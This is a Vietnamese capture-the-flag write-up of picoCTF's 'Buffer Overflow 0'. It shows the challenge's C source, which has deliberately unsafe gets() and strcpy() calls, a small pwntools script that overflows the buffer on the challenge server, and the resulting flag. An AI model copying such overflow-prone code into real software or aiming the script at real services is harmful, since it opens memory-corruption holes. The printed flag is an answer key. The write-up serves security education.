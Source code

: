 # Buffer Overflow 0
Ở challenge này thì ta sẽ có 2 file, một file binary `vuln` và một file .c `vuln.c`.

Mở file `vuln.c` ta có source như sau:

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

Ta thấy 2 dòng lệnh sau dẫn đến lỗi `buffer overflow`:

``` c
strcpy(buf2, input);
...
gets(buf1);
```

Và ta nhìn thấy hàm `sigsegv_handler()` sẽ in ra flag:

``` c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```

Và ta thấy dòng code:

``` c
signal(SIGSEGV, sigsegv_handler); // Set up signal handler
```

Dòng code này cho thấy khi chương trình nhận tín hiệu `SIGSEGV` thì hàm `sigsegv_handler()` sẽ được gọi.

Và giờ ta chỉ cần nhập đầu vào một chuỗi kí tự dài để gây ra tín hiệu `SIGSEGV` và có flag. Dựa vào source code thì ta chỉ cần nhập 17 kí tự là được, nhưng thực tế, khi chạy local thì cần nhập đến 20 kí tự có thể làm được.

``` python 
from pwn import *

payload = 20 * 'a'
#p = process("./vuln")
p = remote("saturn.picoctf.net", 64802)
p.sendline(payload)
p.interactive()
```

Và ta có flag:
```
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```